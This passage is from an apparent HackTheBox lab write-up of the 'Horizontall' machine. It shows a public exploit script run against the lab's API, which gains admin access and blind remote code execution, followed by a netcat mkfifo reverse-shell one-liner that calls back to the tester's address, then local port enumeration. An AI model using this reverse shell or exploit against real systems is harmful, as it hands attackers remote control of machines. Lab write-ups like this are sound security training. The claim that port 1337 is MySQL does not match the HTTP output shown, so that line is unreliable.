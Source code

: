 ## Exploitation

I executed the script:

```shell
python3 50239.py http://api-prod.horizontall.htb
```

![](Pasted%20image%2020241219102828.png)

So I could log in as administrator:

![](Pasted%20image%2020241219102934.png)

But as the script i executed gave me a blind RCE, I executed a reverse shell to gain remote access to the machine:

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 666 >/tmp/f
```

![](Pasted%20image%2020241219103254.png)

> *I'm in and can read user flag*

## Privilege Escalation

I decided to check for opened ports in the machine:

```shell
netstat -ant
```

![](Pasted%20image%2020241219104122.png)

Port 1337 is related to MySQL, so I performed a curl request to it:

```shell
curl -S 127.0.0.1:1337

<!doctype html>

<html>
  <head>
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <title>Welcome to your API</title>
    <meta name="viewport" content="width=device-width, initial-scale=1" />
    <style>
    </style>
  </head>
  <body lang="en">
    <section>
      <div class="wrapper">
        <h1>Welcome.</h1>
      </div>
    </section>
  </body>
</html>
```
